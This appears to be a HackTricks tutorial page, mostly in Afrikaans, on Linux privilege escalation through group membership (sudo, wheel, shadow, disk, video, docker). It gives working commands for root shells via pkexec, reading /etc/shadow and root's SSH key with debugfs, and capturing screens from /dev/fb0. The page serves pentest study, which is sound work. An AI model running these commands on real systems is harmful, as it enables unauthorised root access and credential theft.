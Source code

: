 {% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Gebruik [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) om maklik te bou en **werkvloei** te **automate** wat deur die wêreld se **mees gevorderde** gemeenskap gereedskap aangedryf word.\
Kry Toegang Vandag:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

# Sudo/Admin Groepe

## **PE - Metode 1**

**Soms**, **per standaard \(of omdat sommige sagteware dit benodig\)** binne die **/etc/sudoers** lêer kan jy sommige van hierdie lyne vind:
```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```
Dit beteken dat **enige gebruiker wat tot die groep sudo of admin behoort, enigiets as sudo kan uitvoer**.

As dit die geval is, om **root te word kan jy net uitvoer**:
```text
sudo su
```
## PE - Metode 2

Vind alle suid binaire en kyk of daar die binaire **Pkexec** is:
```bash
find / -perm -4000 2>/dev/null
```
As jy vind dat die binêre pkexec 'n SUID-binêre is en jy behoort tot sudo of admin, kan jy waarskynlik binêre uitvoer as sudo met behulp van pkexec. 
Kontroleer die inhoud van:
```bash
cat /etc/polkit-1/localauthority.conf.d/*
```
Daar sal jy vind watter groepe toegelaat word om **pkexec** uit te voer en **per standaard** kan sommige van die groepe **sudo of admin** in linux **verskyn**.

Om **root te word kan jy uitvoer**:
```bash
pkexec "/bin/sh" #You will be prompted for your user password
```
As jy probeer om **pkexec** uit te voer en jy kry hierdie **error**:
```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```
**Dit is nie omdat jy nie toestemmings het nie, maar omdat jy nie sonder 'n GUI gekonnekteer is nie**. En daar is 'n oplossing vir hierdie probleem hier: [https://github.com/NixOS/nixpkgs/issues/18012\#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903). Jy het **2 verskillende ssh-sessies** nodig:

{% code title="session1" %}
```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```
{% endcode %}

{% code title="sessie2" %}
```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
{% endcode %}

# Wheel Group

**Soms**, **per standaard** binne die **/etc/sudoers** lêer kan jy hierdie lyn vind:
```text
%wheel	ALL=(ALL:ALL) ALL
```
Dit beteken dat **enige gebruiker wat tot die groep wheel behoort, enigiets as sudo kan uitvoer**.

As dit die geval is, om **root te word kan jy net uitvoer**:
```text
sudo su
```
# Shadow Group

Users from the **group shadow** can **read** the **/etc/shadow** file:
```text
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```
So, lees die lêer en probeer om **sommige hashes te kraak**.

# Skyf Groep

Hierdie voorreg is byna **gelyk aan worteltoegang** aangesien jy toegang het tot al die data binne die masjien.

Lêers:`/dev/sd[a-z][1-9]`
```text
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
Let daarop dat jy met debugfs ook **lêers kan skryf**. Byvoorbeeld, om `/tmp/asd1.txt` na `/tmp/asd2.txt` te kopieer, kan jy doen:
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
However, if you try to **write files owned by root** \(like `/etc/shadow` or `/etc/passwd`\) you will have a "**Toegang geweier**" error.

# Video Groep

Using the command `w` you can find **who is logged on the system** and it will show an output like the following one:
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
Die **tty1** beteken dat die gebruiker **yossi fisies ingelogde** is op 'n terminal op die masjien.

Die **video groep** het toegang om die skermuitset te sien. Basies kan jy die skerms observeer. Om dit te doen, moet jy die **huidige beeld op die skerm** in rou data gryp en die resolusie wat die skerm gebruik, kry. Die skermdata kan gestoor word in `/dev/fb0` en jy kan die resolusie van hierdie skerm op `/sys/class/graphics/fb0/virtual_size` vind.
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
Om die **rauwe beeld** te **open**, kan jy **GIMP** gebruik, kies die **`screen.raw`** lêer en kies as lêertipe **Raw image data**:

![](../../.gitbook/assets/image%20%28208%29.png)

Verander dan die Breedte en Hoogte na diegene wat op die skerm gebruik word en kyk na verskillende Beeldtipes \(en kies die een wat die skerm beter wys\):

![](../../.gitbook/assets/image%20%28295%29.png)

# Root Groep

Dit lyk of **lede van die root groep** standaard toegang kan hê om sommige **diens** konfigurasielêers of sommige **biblioteek** lêers of **ander interessante dinge** wat gebruik kan word om voorregte te verhoog, te **wysig**...

**Kontroleer watter lêers root lede kan wysig**:
```bash
find / -group root -perm -g=w 2>/dev/null
```
# Docker Groep

Jy kan die wortel lêer stelsel van die gasheer masjien aan 'n instansie se volume monteer, sodat wanneer die instansie begin, dit onmiddellik 'n `chroot` in daardie volume laai. Dit gee jou effektief wortel op die masjien.

{% embed url="https://github.com/KrustyHack/docker-privilege-escalation" %}

{% embed url="https://fosterelli.co/privilege-escalation-via-docker.html" %}

# lxc/lxd Groep

[lxc - Privilege Escalation](lxd-privilege-escalation.md)


<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Gebruik [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) om maklik te bou en **werkvloei** te **automate** wat deur die wêreld se **mees gevorderde** gemeenskap gereedskap aangedryf word.\
Kry Vandag Toegang:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
